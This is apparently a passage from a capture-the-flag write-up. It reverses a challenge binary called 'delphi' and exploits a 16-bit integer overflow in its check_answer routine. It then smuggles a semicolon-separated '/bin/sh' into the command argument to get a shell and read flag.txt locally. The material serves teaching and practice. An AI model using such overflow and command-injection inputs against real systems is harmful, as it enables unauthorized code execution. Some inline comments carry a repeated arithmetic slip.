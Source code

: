 So if we start with 42 and add the number we specified, how can we get that to be less than or equal to 4? Hmmm... well an integer overflow would sure do the trick :D This assembly actually looks really funky, like why would you use the ax register and add it to WORD [rbp-0x2] and compare 4 to the WORD [rbp-0x2]? Since a WORD is only two bytes, if we send in the maximum value of a WORD and add it to any value, the carry bit is going to be discarded because we will have exceeded the size of a WORD. So what if we send the largest size of a WORD - 42 == 2^16 - 42 == 65494?
{% highlight nasm lineanchors %}
[----------------------------------registers-----------------------------------]
RAX: 0x0 
[-------------------------------------code-------------------------------------]
   0x7ffff7bd8789 <check_answer+49>:	mov    eax,DWORD PTR [rbp-0x94]
   0x7ffff7bd878f <check_answer+55>:	add    WORD PTR [rbp-0x2],ax
   0x7ffff7bd8793 <check_answer+59>:	movzx  eax,WORD PTR [rbp-0x2]
=> 0x7ffff7bd8797 <check_answer+63>:	cmp    eax,0x4
   0x7ffff7bd879a <check_answer+66>:	ja     0x7ffff7bd87ed <check_answer+149>
   0x7ffff7bd879c <check_answer+68>:	mov    eax,eax
   0x7ffff7bd879e <check_answer+70>:	lea    rdx,[rax*4+0x0]
   0x7ffff7bd87a6 <check_answer+78>:	lea    rax,[rip+0xff]        # 0x7ffff7bd88ac
{% endhighlight %}

Woah, eax is 0! So now we are going to hit that weird jump code. Now the question is, what does eax have to be to get the system code to be called? Well we could do the math here, or since we know eax can only be 0, 1, 2 or 4 we could just try setting eax to be those different numbers until we get it to work :D
{% highlight bash lineanchors %}
➜  yvr  ./delphi 
Welcome!

Are you ready to play 20 questions? No? Perfect!
Im thinking of something big, metal, and orange. Go!
> go asdf 65494    # 2^16 - 42 + 0 == 65494 means eax = 0
> go asdf 65495    # 2^16 - 42 + 1 == 65494 means eax = 1
> go asdf 65496    # 2^16 - 42 + 2 == 65494 means eax = 2
> go asdf 65497    # 2^16 - 42 + 3 == 65494 means eax = 3
> go asdf 65498    # 2^16 - 42 + 4 == 65494 means eax = 4
asdf
> 
{% endhighlight %}

Boom! So we got that system call to be executed and all it does right now is "echo <our string>". But if you look at the code again, it simply concatinates the 2nd part of our payload to the echo without checking for special characters, meaning we can just put a semicolon and execute arbituary commands :D
{% highlight bash lineanchors %}
➜  yvr  ./delphi
Welcome!

Are you ready to play 20 questions? No? Perfect!
Im thinking of something big, metal, and orange. Go!
> go asdf;/bin/sh 65498
asdf
$ cat flag.txt
flag{something or other}  # Not the actual flag, running locally
$ 
{% endhighlight %}

Not too bad of a challenge, really was more reversing than actually exploitation. So when it all boils down, you have to reverse a basic command protocol, exploit an integer overflow and use metacharacter injection. For 200 points I would say that is reasonable :D
